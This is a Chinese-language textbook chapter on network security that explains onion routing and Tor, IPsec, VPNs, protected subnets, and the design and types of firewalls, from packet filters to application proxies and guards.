Paul Syverson 及其同事 [SYV97] 引入了**洋葱路由**的概念。该模型使用一组转发主机，每个主机仅知道通信是从哪里接收的以及下一步发送到哪里。因此，要从 A 向 B 发送不可追踪的数据，A 选择一定数量的转发主机，称它们为 X、Y 和 Z。A 首先使用 B 的公钥加密通信。然后 A 添加一个从 Z 到 B 的头部，并使用 Z 的公钥加密结果。接着 A 在其上添加一个从 Y 到 Z 的头部，并使用 Y 的公钥加密。然后 A 再添加一个从 X 到 Y 的头部，并使用 X 的公钥加密。最后，A 添加一个发送数据包给 X 的头部。

收到数据包后，X 解密它，发现指示将内层数据包转发给 Y 的指令。Y 随后解密它，发现指示将内层数据包转发给 Z 的指令。Z 然后解密它，发现指示将内层数据包转发给 B 的指令。数据包像剥洋葱层一样被逐层解构，这就是为什么这种技术被称为洋葱路由。

没有中间主机能知道最终接收者是谁。即使 Z 也无法判断 B 是最终目的地，因为 Z 传递给 B 的内容是用 B 的公钥加密的。因此，X、Y 和 Z 只知道它们是中介，但不知道还有哪些其他中介、有多少中介，以及它们在链中的位置。任何中间接收者——原始发送者和最终接收者之外的实体——既不知道数据包从何而来，也不知道将去向何方。该方案提供了内容、源、目的地和路由的机密性。

洋葱路由的数据包可以是任何网络传输。然而，最流行的用途是隐蔽电子邮件（收件人无法确定原始发件人是谁）和私密网页浏览（目标主机或监视发件人外发通信的窃听者均无法确定目标主机或流量内容）。

Tor 项目（[`www.torproject.org/`](https://www.torproject.org/)）分发免费软件并建立了一个开放网络，该网络使用洋葱路由来防御流量分析。Tor（The Onion Router 的缩写）通过在由全球志愿者运营的 5000 多个中继节点组成的分布式网络中传输通信来提供保护：它防止监视互联网连接的外部人员了解用户访问了哪些网站，也防止网站了解用户的物理位置。根据 2014 年 1 月 23 日《彭博商业周刊》的报道，Tor 用户范围广泛，从 2009 年总统大选后抗议活动中躲避政府审查传输图片和新闻的伊朗活动人士，到经常使用它绕过该国严格的互联网内容和访问限制的中国公民。Tor 还助长了所谓的互联网阴暗面，即暗网，被用于实施儿童色情、毒品以及被盗信用卡和身份信息的非法交易。

***

**Tor——洋葱路由——防止窃听者在网络中获取传输中数据的源、目的地或内容。**

***

###### IP 安全协议套件 (IPsec)

互联网地址空间即将耗尽。随着域名和设备的激增，互联网原有的、已有 30 多年历史的 32 位地址结构已接近饱和。一种称为 **IPv6**（IP 协议套件版本 6）的新结构解决了寻址问题。这一重构也为互联网工程任务组（IETF）解决严重的安全需求提供了绝佳机会。

作为 IPv6 套件的一部分，**IP 安全**协议套件，即 **IPsec**，被 IETF 采纳。IPsec 旨在解决易受欺骗、窃听和会话劫持等根本缺陷，定义了处理加密数据的标准方法。IPsec 在 IP 层（第 3 层）实现，因此它保护其上所有层产生的数据，特别是 `TCP` 和 `UDP` 控制信息以及应用数据。因此，IPsec 无需更改现有的大量 `TCP` 和 `UDP` 协议或应用程序。

IPsec 在某些方面类似于 SSL，因为它以一种不需要在其上层（应用程序）或下层（`TCP` 协议）进行重大更改的方式支持身份验证和机密性。与 SSL 一样，它被设计为独立于特定加密算法，并允许双方通信方商定一组双方都支持的协议。

***

**IPsec 在互联网协议中实现加密和身份验证。**

***

####### IPsec 安全关联

IPsec 的基础是所谓的 **安全关联**，本质上是一个安全通信通道的安全参数集合。它大致相当于一个 SSL 会话。安全关联包括：

*   加密算法和模式（例如 `AES`）
*   加密密钥
*   加密参数，如初始化向量
*   认证协议和密钥
*   关联的生命周期，允许长时间运行的会话根据需要频繁选择新的加密密钥
*   关联另一端的地址
*   受保护数据的敏感级别（可用于机密数据）

主机（如网络服务器或防火墙）可能为与不同远程客户端的并发通信维护多个生效的安全关联。安全关联通过安全参数索引（SPI）进行选择，SPI 本质上是指向安全关联表的指针。

####### 报头与数据

IPsec 的基本数据结构是 **认证报头**（**AH**）和 **封装安全载荷**（**ESP**）。ESP 替换（包含）了数据包的传统 `TCP` 报头和数据部分，如图 6-45 所示。物理报头和尾部取决于数据链路和物理层通信介质，如以太网。


**图 6-45** IPsec 封装安全载荷

ESP 包含一个认证部分和一个加密部分，如图 6-46 所示。序列号针对使用相同安全关联发往同一地址的每个数据包加 1，以防止数据包重放攻击。载荷数据是数据包的实际数据。由于某些加密或其他安全机制需要特定大小的数据块，填充因子和填充长度字段包含填充内容及填充量，以将载荷数据调整到合适的长度。下一个报头指示载荷数据的类型。认证字段用于对整个对象进行认证。


**图 6-46** IPsec 中 ESP 的保护

***

**IPsec 封装安全载荷包含描述符，告知接收方如何解读加密内容。**

***

####### 密钥管理

与大多数加密应用一样，关键要素是密钥管理。IPsec 通过 **互联网安全关联密钥管理协议**（**ISAKMP**）来满足这一需求。与 SSL 一样，ISAKMP 要求为每个安全关联生成不同的密钥。ISAKMP 协议简单、灵活且可扩展。在 IPsec 中，ISAKMP 通过 **ISAKMP 密钥交换**（**IKE**）实现，它提供了一种商定和管理协议、算法和密钥的方式。对于无关联双方之间的密钥交换，IKE 使用 Diffie-Hellman 方案（详见第 12 章）生成一个共享密钥，该密钥随后用作加密密钥。利用共享密钥，双方交换身份和证书以认证这些身份。最后，它们派生出一个共享加密密钥并进入安全关联。

密钥交换非常高效：交换可在两条消息内完成，可选再加两条消息用于认证。因为这是一种公钥方法，所以每对通信方只需要两个密钥。IKE 具有用于认证（发起）和在现有安全关联中建立新密钥的子模式。

####### 运行模式

IPsec 可以强制实施机密性、真实性，或两者兼有。机密性通过对称加密实现，真实性通过用私钥签名的非对称算法获得。此外，哈希功能防篡改。

在某些情况下，传输的数据敏感，其最终接收者的身份（地址）也同样敏感。当然，数据包需要地址才能在网络中路由。然而，暴露的地址可以是前端设备（如防火墙）的地址，该设备再将传输转发给未暴露的内部网络地址。IPsec 定义了两种运行模式，如图 6-47 所示。在 **传输模式**（正常操作）下，IP 地址报头未加密。在 **隧道模式** 下，接收者的地址通过加密隐藏，IPsec 用远程设备（如防火墙）的地址替代，该设备将接收传输并移除 IPsec 加密。


**图 6-47** IPsec 运行模式

IPsec 可以建立用于多种目的的加密会话，包括 VPN、应用程序和底层网络管理（如路由）。IPsec 的协议已发布并经过广泛审查。协议工作始于 1992 年。它们首次发布于 1995 年，并于 1998 年最终确定（RFC 2401–2409）[KEN98]。IKE 的第二个版本于 2005 年标准化[KAU05]，扩展于 2008 年记录[BLA08]，尽管 1995 年的基本 IKE 结构保留至今。IKE 和 IPsec 包含加密的 `nonce`，专门用于挫败劫持攻击。

###### 虚拟专用网络


# 链路加密与虚拟专用网络

链路加密可以让网络用户感觉他们处于一个专用网络中，即使它是公共网络的一部分。此外，应用于链路层时，加密和解密对用户是不可见的。因此，这种方法称为**虚拟专用网络**（或 **VPN**）。

***

**虚拟专用网络在共享网络上模拟专用、受保护通信线路的安全性。**

***

通常，物理安全和管理安全足以保护站点边界内的传输（例如办公室、大楼、工厂或校园）。因此，用户面临的最大风险发生在通信离开受保护环境时。两个安全端点之间的链路加密可以实现这一结果。

对于虚拟专用网络，我们考虑两种情况。第一种情况是，一家公司有两个物理上分离的办公室，员工希望作为一个整体工作，交换敏感数据，就像他们在一个受保护的办公室里一样。每个办公室维护自己的网络。这两个办公室可以通过获取、管理和维护自己的网络设备来提供两个站点之间的专用链路，从而实现专用网络。这种解决方案通常成本高昂，且公司需承担维护连接的全部责任。通常这些公司不从事网络业务，但维护这一链路要求他们成为或雇佣网络管理员。然而，公司可能不愿承担跨公共共享网络传输敏感公司信息的风险。

替代方案是办公室之间建立**虚拟专用网络**。通过链路加密，站点间的所有通信都被加密。该解决方案的大部分成本在于网络的获取和设置。部分员工通信涉及敏感计划和机密数据；其他通信则是关于运动队或午餐计划的日常办公室闲聊。加密闲聊和重要流量几乎没有危害，因为加密和解密所有流量的额外时间通常相对于网络传输时间微不足道。

防火墙（下一节描述）可以实现 VPN。当用户首次与防火墙建立通信时，用户可以请求与防火墙建立 VPN 会话。用户的客户端与防火墙协商会话加密密钥，随后防火墙和客户端使用该密钥加密两者之间的所有流量。这样，大型网络仅限于获得 VPN 特殊访问权限的人员访问。换句话说，用户感觉大型网络是私有的，即使它不是。使用 VPN 时，我们称通信通过加密隧道传递。VPN 的建立如图 6-48 所示。


**图 6-48** VPN 的建立

现在考虑第二种情况：远程办公者。Jeannie 是一名在家工作的员工。为了在家高效工作，她需要使用在办公室可轻松访问的中央文件和资源。但显然，公司不希望这些资源暴露给公众。从家里，Jeannie 使用 DSL 或有线电视等技术连接到互联网提供商，该提供商将她的部分流量路由到办公室，其余路由到其他网站。因此，对她的办公室而言，她看起来像任何其他网络用户。她也可以使用 VPN 进行安全的办公室通信。

虚拟专用网络是在防火墙与边界内的认证服务交互时创建的。防火墙可将用户认证数据传递给认证服务器，在确认认证身份后，防火墙为用户提供适当的安全权限。例如，Jeannie 可能被允许访问普通用户无法访问的资源。防火墙基于 VPN 实施此访问控制。具有特权访问的 VPN 如图 6-49 所示。在该图中，防火墙将 Jeannie 的（特权）身份传递给内部服务器。


**图 6-49** 具有特权访问的 VPN

加密是一种强大的工具，但其使用充满问题。算法本身运行整齐，许多硬件和软件实现易于使用且可靠。管理密钥以支持许多虚拟用户很复杂，但由表驱动，使其成为计算机的优秀任务。密钥在两端的存储中也必须受到保护。

## 系统架构

如果您试图限制端口扫描揭示的关于网络及其主机和服务的信息，自然的方法是分割网络，将许多主机置于外部不可见的网段上。

例如，考虑典型的医院电话系统。某些职能（如人力资源或患者服务）需要直接接受外部来电，这些电话号码可在目录中公布。但您不希望手术室、诊断实验室甚至后勤维修的电话号码容易被外部人员获取。医院会公布总机号码；如果外部人员有充分理由需要接通手术室，总机可以判断并转接电话，或将其重定向给能提供更好帮助的人。某些高管可能有行政助理筛选来电，允许某些电话立即接通，为其他电话记录留言，并重定向其他电话。这种医院电话服务描述中隐含的架构是：少量可外部访问的电话（相对于更多的内部电话），以及一些筛选和重定向所有其他来电的关键节点。

网络也存在类似情况。比较图 6-50(a)的网络与图 6-50(b)的网络。在图 6-50(a)中，所有五台计算机 A–E 对外部网络可见，而在图 6-50(b)中仅计算机 A 可见。第 (b) 部分中设备 B–E 的网络称为**受保护子网**，设备 A 称为**双宿主网关**。


**图 6-50** (a) 可见设备。(b) 不太可见的设备

架构 (a) 相对于架构 (b) 具有一些优势。首先，主机 A 成为单点故障：如果网关 A 因任何原因不可用，它无法向 B–E 传递流量，意味着它们实际上与网络断开连接。此外，网关设备 A 成为潜在瓶颈，设备 B 到 E 共享通过 A 的访问；如果 A 缓慢，或 B–E 中某台设备消耗大量网络带宽，其他机器的性能会受影响。

我们甚至可以将受保护子网的概念扩展到两个或更多子网，如图 6-51 所示。这三个子网可能用于不同的部门或用户组，也可能按地理位置分配。当然，网关 A 支持的子网越多，设备 A 发生故障时的风险就越大。


**图 6-51 多个受保护子网**

***

**受保护子网可分隔部门、项目、客户、区域——任何需要对数据或通信实施受控访问的子群体。**

***

重新配置网络架构会限制或增加移动的复杂性，但这并未解决受控访问这一核心安全目标。要实现该目标，我们依赖一种称为防火墙的设备，我们将在接下来进行描述。

# 6.7 防火墙

正如其名称所暗示的，建筑中的防火墙是旨在阻止火势从建筑的一部分蔓延到另一部分的墙，例如相邻公寓之间。防火墙由能承受特定强度或持续时间的火灾的材料建造而成；它们阻碍火势蔓延，但无法保证或旨在阻止特别猛烈的大火。

作为计算机安全设备，网络防火墙与此类似，保护一个子网免受另一个子网的危害。防火墙的主要用途是保护内部子网免受我们之前描述过的野外互联网的诸多威胁。防火墙也可用于分隔内部网络的各个段，例如，在大型组织内保护敏感研究网络的高度机密性。

## 什么是防火墙？

防火墙是网络最重要的安全设备之一。防火墙于 1990 年代初正式发明，但其概念实际上反映了二十年前引入的参考监视器（见第 2 章）。以该名称首次提及防火墙的可能是 Marcus Ranum [RAN92]；其他早期关于防火墙的参考文献包括可信信息系统防火墙工具包 [RAN94] 以及 Bill Cheswick 和 Steve Bellovin 1994 年的著作 [更新版为 CHE02]。

**防火墙**是一种设备，它过滤受保护或“内部”网络与较不可信或“外部”网络之间的所有流量。通常防火墙运行在专用设备上；因为它是流量被引导通过的单一节点，性能很重要，这意味着防火墙机器上应仅运行防火墙功能。

在实践中，防火墙是一台具有内存、存储设备、用于网络访问的接口卡及其他设备的计算机。它运行一个操作系统并执行应用程序。通常硬件、操作系统和应用程序作为一个包出售，因此防火墙应用程序（一个程序）有时也被称为防火墙。

***

**防火墙是网络架构中两部分之间的数据流量指挥官，允许或阻断数据流。它是各部分之间的唯一链路。**

***

防火墙系统通常没有编译器、链接器、加载器、通用文本编辑器、调试器、编程库或其他攻击者可能用来从防火墙计算机扩展攻击的工具。因为防火墙是可执行代码，攻击者可能攻破该代码并从防火墙设备上执行。例如，Cisco 在其交换机、路由器和防火墙上运行专有操作系统 `IOS`。从 2013 年 7 月到 2014 年 6 月的一年间，Cisco 发布了 27 个 `IOS` 补丁，以解决从可能导致拒绝服务的漏洞到地址转换和路由问题等一系列问题。长期以来，网络设备上的专有软件几乎不是攻击者的目标，但即使这些设备现在也引起了黑客的关注。

防火墙的目的是将“坏”东西挡在受保护环境之外。为实现这一目的，防火墙实施专门设计的安全策略，以应对可能发生的坏事。例如，策略可能是阻止任何来自外部的访问（同时仍允许流量从内部流向外部）。或者，策略可能仅允许来自特定地点、特定用户或特定活动的访问。用防火墙保护网络的部分挑战在于确定哪种安全策略满足该安装环境的需求。

***

**防火墙强制执行预先确定的规则，以管控何种流量可以流动。**

***

防火墙社区（用户、开发人员和安全专家）对防火墙应如何工作存在分歧。特别是，社区在防火墙的默认行为上意见不一。我们可以将这两派观点描述为“未明确禁止即允许”（**默认允许**）和“未明确允许即禁止”（**默认拒绝**）。用户总是对新功能感兴趣，倾向于前者。安全专家基于数十年的经验，强烈建议采用后者。实施或配置防火墙的管理员必须在两种方法中选择一种，尽管管理员通常可以通过设置防火墙参数来放宽策略。

## 防火墙的设计

正如我们所描述的，防火墙是严格且有效地控制进出网络数据流的简单设备。两个特性造就了这种有效性：一个被充分理解的流量流动策略和一个值得信赖的设计与实现。

### 策略

防火墙实施一项**安全策略**，即一组确定何种流量可以或不可以通过防火墙的规则。正如计算机安全中的许多问题一样，我们理想情况下希望有一个简单的策略，例如“良性”流量可以通过但“恶意”流量被阻断。不幸的是，定义“良性”和“恶意”既不简单也非算法化。防火墙附带示例策略，但每位网络管理员都需要确定允许何种流量进入特定网络。

表 6-5 显示了一个简单防火墙配置的示例。该表从上至下处理，第一条匹配的规则决定防火墙的动作。`*` 字符匹配该字段中的任意值。该策略规定：任何目标端口为 25（邮件传输）或 69（所谓的简单文件传输）的入站流量，允许进出 192.168.1 子网上的任意主机。根据规则 3，允许任意内部主机发往任意位置端口 80（网页获取）的出站流量。此外，根据规则 4，允许目标地址为 192.168.1.18（推测为 Web 服务器）的内部主机的外部流量。所有其他发往 192.168.1 网络的流量均被拒绝。


**表 6-5 防火墙配置示例**

### 信任

防火墙是参考监视器的一个例子，参考监视器是一个基本的计算机安全概念。请回忆第 2 章和第 5 章，参考监视器有三个特征：

* 始终被调用
* 防篡改
* 足够小且简单，可进行严格分析

防火墙是参考监视器的一种特殊形式。通过在网络架构中仔细定位防火墙，我们可以确保所有我们想要控制的网络访问都必须通过防火墙。防火墙被定位为受保护（内部）网络与不受控（外部）网络之间唯一的物理连接。这种布局确保了“始终被调用”这一条件。

#### 防火墙架构与类型

防火墙通常经过良好的隔离，使其极难被篡改。通常防火墙实现在一台独立的计算机上，仅与外部网络和内部网络有直接连接。这种隔离预期能满足“防篡改”要求。此外，防火墙平台运行的是精简的操作系统，仅运行最少量的服务，以防止操作系统或防火墙应用程序被攻破。例如，防火墙可能会生成被拒绝流量的日志，但可能未安装用于查看和编辑该日志的工具；如有必要，修改可在受保护环境中的另一台机器上进行。这样，即使攻击者攻破了防火墙系统，也没有工具来伪造或删除可能显示事件的日志条目。

最后，防火墙设计者强烈建议保持防火墙功能的简单性。遗憾的是，随着时间的推移，对防火墙功能的需求不断增加（如流量审计、图形用户界面、用于表达和实施复杂策略规则的语言、分析高度结构化流量的能力），因此大多数当前的防火墙不能被认为是小型或简单的。尽管如此，防火墙制造商抵制了大多数添加无关功能的市场推广尝试，因为这些功能的净效果仅会降低人们对防火墙按预期运行的信心基础。

---

**防火墙是一个参考监视器，定位于监控所有流量，不可被外部攻击访问，且仅实施访问控制。**

---

##### 防火墙类型

防火墙具有广泛的能力，但总体而言，防火墙可归为少数几种类型。每种类型执行不同的功能；没有哪一种类型必然是正确或更好的，而其他的是错误的。在本节中，我们首先阐述不同类型防火墙的必要性，然后逐一考察每种类型，了解其是什么、如何工作以及其优缺点。不同类型的防火墙实施不同类型的策略；例如，称为筛选路由器的简单防火墙仅根据报头数据（地址）进行判断。更复杂的防火墙会检查通信内容以做出访问决策。安全策略的简单性并非坏事；选择防火墙类型时要问的重要问题是：安装环境需要应对哪些威胁。

因为防火墙是一种主机，它通常像优质工作站一样可编程。虽然筛选路由器可以相当原始，但趋势是将路由器也实现在带有操作系统的完整计算机上，因为编辑器和其他编程工具有助于配置和维护路由器。然而，防火墙开发者是极简主义者：他们试图从防火墙中消除所有非严格必要的功能。这样做有充分理由：尽可能少地为成功的攻击者提供帮助。因此，防火墙倾向于没有用户账户，例如，它们就没有需要隐藏的密码文件。事实上，最理想的防火墙是那种在后台机房里满意运行的防火墙；除了定期扫描其审计日志外，很少有理由去接触它。

###### 网络技术背景

在描述防火墙之前，我们需要重申并扩展本章开头介绍的一些网络技术。图 6-52 描绘了所谓的 ISO 开放系统互连（OSI）网络模型。


**图 6-52** OSI 参考模型

在该模型中，数据由某个应用程序在顶层（第 7 层——应用层）生成。然后数据通过其他六层；在每一层，数据都会被重新格式化、打包和寻址。例如，传输层执行错误检查和纠正以确保可靠的数据流，网络层处理寻址以确定如何路由数据，数据链路层将数据划分为可管理的块以实现高效传输。最后一层，物理层，处理信号跨某些物理介质传输的电气或其他技术。在目的地，数据进入一个类似栈的底部并向上穿过各层，在此过程中寻址细节被移除，项目再次被重新打包和格式化。最后，它们被交付给目的端的一个应用程序。每一层在通信中都扮演着定义明确的角色。这种架构更多是概念性的而非实际的，但它有助于讨论网络功能。

不同的防火墙类型对应不同的威胁。考虑本章开头的端口扫描示例。假设你识别出一个多次探测你系统的攻击者。即使你认为防御是可靠的，你可能也想阻止来自攻击者地址的所有外部流量——而不仅仅是端口扫描。这样，即使攻击者确实发现了你系统中的漏洞，你也能阻止来自同一地址的后续攻击。但这一次只能应对一个攻击者。

现在考虑端口扫描如何运作。扫描器先向端口 1 发送探测，然后是端口 2、3、4，依此类推。这些端口代表服务，其中一些你需要保持运行，以便外部客户端可以访问它们。但没有正常的外部客户端需要尝试连接你的所有端口。因此，你可能会检测并阻止来自任何似乎在试图探测你网络的源的探测。即使探测顺序不是 1-2-3-4（扫描器可能会打乱探测顺序以增加检测难度），从同一来源收到多个针对异常端口的连接尝试，在你看到足够多的探测以识别攻击后，可能就是需要阻止的事情。为此，你的防火墙需要记录并关联单个连接探测。

另一种网络攻击可能针对特定应用程序。例如，可能已知品牌 `z` Web 服务器版本 `x.y` 存在一个缺陷，涉及特定字符串的数据流。你的防火墙可以专门查找指向 Web 服务器端口的该确切字符串。这些不同种类的攻击和检测它们的不同方式导致了几种防火墙类型。防火墙类型包括

* 包过滤网关或筛选路由器
* 状态检测防火墙
* 应用级网关，也称为代理
* 电路级网关
* 卫士
* 个人防火墙

我们在以下各节中描述这些类型。

###### 包过滤网关

**包过滤网关**或**筛选路由器**是最简单的防火墙类型，在某些情况下也是最有效的。包过滤网关基于数据包地址（源或目的）或特定传输协议类型（如 HTTP Web 流量）控制访问，即通过检查每个单个数据包的控制信息。防火墙可在流量到达受保护网络之前对其进行筛选。因此，如果端口扫描源自地址 `100.200.3.4`，你可以将包过滤网关防火墙配置为丢弃来自该地址的所有数据包。图 6-53 显示了一个包过滤器，它阻止来自（或发往）某一网络中地址的访问；该过滤器允许 HTTP 流量但阻止使用 Telnet 协议的流量。包过滤器工作在 OSI 第 3 层。


**图 6-53** 包过滤器

---

**包过滤器——筛选路由器——基于数据包报头数据限制流量：数据包上的地址和端口**

---

####### 数据包过滤器

数据包过滤器不会“查看”数据包内部；它们仅根据 IP 地址和端口来阻断或接受数据包。因此，数据包数据字段中的任何细节（例如，允许某些 Telnet 命令同时阻断其他服务）都超出了数据包过滤器的能力范围。

数据包过滤器可以执行一项重要服务，即确保内部地址的有效性。内部主机通常信任其他内部主机，正是因为它们不是外部人员：外部环境是不可控的，且充满了有害因素。但内部主机识别另一个内部主机的唯一方式，是通过消息源字段中显示的地址。数据包中的源地址可以被伪造，因此内部应用程序可能会误以为它正在与另一台内部主机通信，而实际上是在与外部伪造者通信。数据包过滤器位于内部网络和外部网络之间，因此它可以判断来自外部的数据包是否伪造了内部地址，如图 6-54 所示。


**图 6-54** 数据包过滤器筛选外部主机

当我们说过滤器“位于”两个网络之间时，实际上是指它通过两块独立的接口卡分别连接到内部和外部网络。数据包过滤器可以根据数据包到达的接口，轻松区分内部和外部流量。

筛选型数据包过滤器可以配置为阻断所有声称源地址为内部地址的外部数据包。在本例中，数据包过滤器阻断所有声称来自 `100.50.25.x` 形式地址的数据包（当然，它允许目的地为 `100.50.25.x` 的任何数据包进入）。数据包过滤器仅根据每个数据包本身的头部信息——地址、大小、协议类型——来接受或拒绝。这种处理简单、高效且快速，因此数据包过滤防火墙通常充当坚固的看门人，以快速消除明显不需要的流量。

数据包过滤路由器的主要缺点是简单性与复杂性的结合。路由器的检查是简化的；要执行复杂的过滤，规则集需要非常详细。详细的规则集将变得复杂，因此容易出错。例如，阻断所有端口 23 流量（Telnet）既简单又直接。但如果要允许某些 Telnet 流量，则必须在规则中指定每个允许的 IP 地址；这样，规则集可能会变得非常长。

###### 有状态检测防火墙

过滤防火墙一次处理一个数据包，接受或拒绝每个数据包，然后继续处理下一个。它们没有从一个数据包到下一个数据包的“状态”或“上下文”概念。**有状态检测防火墙**在输入流中维护从一个数据包到另一个数据包的状态信息。

***

**有状态检测防火墙根据来自多个数据包的信息进行判断。**

***


## 回顾有状态检测防火墙

回顾一下针对端口 1、2、3、4 等进行探测的描述；这种活动就是有状态检测防火墙用法的一个例子。单独来看，针对端口 1 的探测毫无意义：这极有可能是连接端口 1 服务的合法尝试，或是一个简单的错误，但它也可能预示着端口扫描攻击的开始。防火墙记录地址 `100.200.3.4` 在 01:37.26 向端口 1 发送了一个连接数据包。当针对端口 2 的探测到达时，防火墙可能会记录来自 `100.200.3.4` 的第二次连接，时间为 01:37.29。在 01:37.34 和 01:37.36 又有两次连接后，01:37.39 的下一次连接满足了防火墙关于短时间内不同端口数量的规则，因此它激活规则阻断来自 `100.200.3.4` 的连接，如图 6-55 所示。防火墙根据来自地址 `100.200.3.4` 的连接请求计数（来自不同数据包），经历多个状态，直到计数超过可接受行为的阈值。有状态检测这个名称，是指跨多个数据包累积威胁证据。


**图 6-55** 有状态检测阻断多重探测

攻击者使用的一种经典手法是，通过强制某些数据包具有极短的长度，将攻击分解到多个数据包中，以便防火墙无法检测到分割在两个或更多数据包中的攻击特征。有状态检测防火墙会跟踪数据包序列以及从一个数据包到另一个数据包的条件，以挫败此类攻击。

## 应用代理

数据包过滤器只查看数据包的头部，而不查看数据包内部的数据。因此，假设其筛选规则允许入站连接，数据包过滤器会允许任何内容通过端口 25。但应用程序复杂且有时包含错误。更糟糕的是，应用程序（如电子邮件投递代理）通常代表所有用户行事，因此它们需要所有用户的特权（例如，存储传入邮件以便内部用户阅读）。一个有缺陷的应用程序，若以所有用户特权运行，可能造成严重破坏。

**应用代理网关**，也称为**堡垒主机**，是一种防火墙，它在 7 层模拟应用程序的（正确）效果，使应用程序仅接收正常行事的请求。代理网关是一个双头设备：从内部看，网关似乎是外部（目标）连接；而对外部人员而言，代理主机的响应就像内部人员一样。事实上，它的行为就像第 4 章中描述的中间人。

> **应用代理在内部网络上模拟受保护应用程序的行为，仅允许安全数据进入。**

应用代理运行伪应用程序。例如，当电子邮件传输到某个位置时，一个站点的发送进程和目标站点的接收进程通过一个协议进行通信，该协议确立邮件传输的合法性，然后实际传递邮件。发送方和目标方之间的协议定义得非常仔细。代理网关实质上插入到该协议交换的中间，在与防火墙外部的发送方通信时看起来像目标方，在与内部真实接收方通信时看起来像发送方。中间的代理有机会筛选邮件传输，确保双向仅发送可接受的电子邮件协议命令和内容。（通常防火墙侧重于保护内部接收者免受外部发送的有害内容侵害。）

作为应用代理的一个例子，考虑 FTP（文件传输）协议。特定的协议命令从远程位置获取文件，将文件存放到远程主机，列出远程主机目录中的文件，并将进程定位在远程主机目录树的特定位置。FTP 协议的命令实际上是用户从工作站执行以操作文件的命令的一个子集。某些管理员可能希望允许获取但阻断存放，并且仅列出某些文件或禁止跳出特定目录（以便外部人员只能从预先指定的目录检索文件）。代理将模拟该协议交换的双方。例如，在一种情况下，代理可能接受获取命令但拒绝存放命令。在另一种情况下，代理可以过滤列出文件请求的本地响应，以仅显示内部管理员愿意向外部人员公开的文件子集。

为了理解代理网关的真正目的，让我们考虑几个例子。

### 代理防火墙示例

- 一家公司想要建立一个在线价目表，以便外部人员可以查看所提供的产品和价格。它希望确保：(a) 没有外部人员可以更改价格或产品列表；(b) 外部人员只能访问价目表，而不能访问内部存储的任何更敏感的文件。
- 一所学校希望允许其学生从互联网上的万维网资源检索任何信息。为了帮助提供高效的服务，学校想要知道访问过哪些站点以及从这些站点获取了哪些文件；特别受欢迎的文件将被缓存在本地。
- 一个政府机构希望通过数据库管理系统响应查询。然而，该机构希望筛选结果，使结果中不返回任何姓名或标识信息——只返回分类统计数。
- 一家拥有多个办公室的公司希望加密发往其他办公室地址的所有电子邮件的数据部分。（远程端的相应代理将移除加密。）

这些需求都可以通过代理来满足。在第一种情况下，代理将监控文件传输协议数据，以确保只访问了价目表文件，并且该文件只能被读取，不能被修改。学校的需求可以通过作为 Web 浏览器一部分的日志记录过程来满足。机构的需求可以通过一个与数据库管理系统交互的专用代理来满足，该代理执行查询但过滤输出。防火墙应用程序可以为最后一种情况加密和解密特定的电子邮件。这些功能如图 6-56 所示。


**图 6-56** 代理防火墙功能

防火墙上的代理可以根据特定需求进行定制，例如记录访问的详细信息。它们甚至可以为可能不同的内部功能提供一个通用的用户界面。假设内部网络混合了多种操作系统类型，其中没有一种支持通过质询-响应令牌进行强认证。代理可以要求强认证（姓名、密码和质询-响应），自行验证质询-响应，然后仅以特定内部主机操作系统所需的形式传递简单的姓名和密码认证详细信息。（这种代理操作类似于第 2 章中描述的单点登录过程。）

代理与筛选路由器的区别在于，代理像应用程序那样解释协议流，以便根据协议内可见的事物来控制通过防火墙的操作，而不仅仅基于外部头部数据。

## 电路级网关

**电路级网关** 是一种本质上允许一个网络成为另一个网络延伸的防火墙。它在 OSI 第 5 层（会话层）运行，并作为两个网络之间的虚拟网关发挥作用。电路是一个在一段时间内保持的逻辑连接，随后被拆除或断开。防火墙在电路首次创建时对其进行验证。电路验证后，通过该电路传输的后续数据将不再被检查。电路级网关可以限制通过网关可以建立哪些连接。

电路级网关的一个用途是实现虚拟专用网络，本章前面已对此进行过描述。假设一家公司有两个办公室，每个办公室都有自己的网络，地址分别为 `100.1.1.x` 和 `200.1.1.x`。此外，公司希望确保这两个地址空间之间的通信是私密的，因此网络管理员安装了一对加密设备。电路级网关分离所有进出 `100` 和 `200` 网络的流量，如图 6-57 所示。（该图仅显示了 `100` 网络；`200` 网络上存在平行结构。）`100` 网络上的电路网关将所有发往 `200` 网络的流量路由通过加密设备。当流量返回时，`100` 子网上的防火墙将所有来自 `200` 网络的流量路由通过加密单元（进行解密）并返回给 `100` 网关。通过这种方式，`100` 和 `200` 网络之间的流量流动被自动筛选（因此没有其他流量可以伪装成这一对受保护网络的一部分），并为机密性进行加密。用户无需知晓加密细节，管理层则确信得到了机密性保护。


**图 6-57** 电路级网关

> **电路级网关将两个独立的子网连接起来，就像它们是一个连续的整体一样。**

## 卫兵系统

**卫兵系统** 是一种复杂的防火墙。与代理防火墙一样，它接收协议数据单元，对其进行解释，并发射相同或不同的协议数据单元，以实现相同或修改后的结果。卫兵系统根据其可用信息（例如它能可靠确定的（外部）用户身份、先前的交互等）决定代表用户执行什么服务。卫兵系统能提供的控制程度仅受限于可计算性。但卫兵系统和代理防火墙足够相似，以至于它们之间的区别有时很模糊。也就是说，我们可以向代理防火墙添加功能，直到它开始看起来很像一个卫兵系统。

卫兵系统的活动可以非常详细，如以下示例所示：

- 一所大学希望允许其学生使用电子邮件，但限制在过去几天内最多发送多少条消息或多少字符的电子邮件。虽然可以通过修改电子邮件处理程序来实现这一结果，但通过监控所有电子邮件流经的公共点——邮件传输协议，可以更容易地实现。
- 一所学校希望其学生能够访问万维网，但由于其连接 Web 的容量限制，将只允许每秒传输这么多字节（即允许文本模式和简单图形，但禁止复杂图形、视频、音乐等）。
- 一个图书馆希望提供某些文档，但为了支持对受版权保护材料的合理使用，它将只允许用户检索文档的前多少个字符。超过该数量后，图书馆将要求用户支付费用，该费用将转交给作者。
- 一家公司正在开发一种基于石油和氦气的新产品，代号为“轻油”。在任何出站数据流中，无论是文件传输、电子邮件、网页还是其他数据流，它都将把“石油”、“氦气”或“轻油”等词替换为“魔法”。防火墙主要被认为是一个入站过滤器：只允许符合防火墙安全策略的适当流量进入。这个例子表明，防火墙或卫兵系统同样可以轻松地筛选出站流量。
- 一家公司希望允许其员工通过 FTP 获取文件。然而，为了防止病毒引入，它将首先通过病毒扫描器扫描所有传入的文件。即使其中许多文件将是非可执行的文本或图形，公司管理员认为扫描它们的费用（哪个文件可以通过）可以忽略不计。

> **卫兵系统可以实现任何可编程的条件集，即使程序条件变得高度复杂。**

